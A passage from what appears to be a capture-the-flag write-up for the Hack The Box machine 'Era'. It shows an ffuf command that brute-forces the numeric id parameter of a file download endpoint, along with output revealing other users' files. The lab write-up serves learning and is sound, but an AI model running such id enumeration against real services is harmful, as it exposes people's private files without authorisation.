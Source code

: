 ![era](/assets/img/era-htb-season8/era-htb-season8_download_file.png)

So we can download by clicking the icon and will get the file we just uploaded. <br>
Based on the id, I thinking that what if we can change the id so what will be happen?. So for this case, we can see that the id is `5540`. <br>
&rarr; Gonna bruteforce with `ffuf` from `0` to `10000` if we can get other file with different id.

```bash
└─$ ffuf -w <(seq 0 10000) -u 'http://file.era.htb/download.php?id=FUZZ' -H "Cookie: PHPSESSID=giur9t4tl1ukcf854io1bmq0m5" -mc 200 -fs 7686

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://file.era.htb/download.php?id=FUZZ
 :: Wordlist         : FUZZ: /proc/self/fd/11
 :: Header           : Cookie: PHPSESSID=giur9t4tl1ukcf854io1bmq0m5
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
 :: Filter           : Response size: 7686
________________________________________________

54                      [Status: 200, Size: 6378, Words: 2552, Lines: 222, Duration: 526ms]
150                     [Status: 200, Size: 6366, Words: 2552, Lines: 222, Duration: 340ms]
5540                    [Status: 200, Size: 6364, Words: 2552, Lines: 222, Duration: 240ms]
:: Progress: [10001/10001] :: Job [1/1] :: 165 req/sec :: Duration: [0:00:56] :: Errors: 0 ::
```
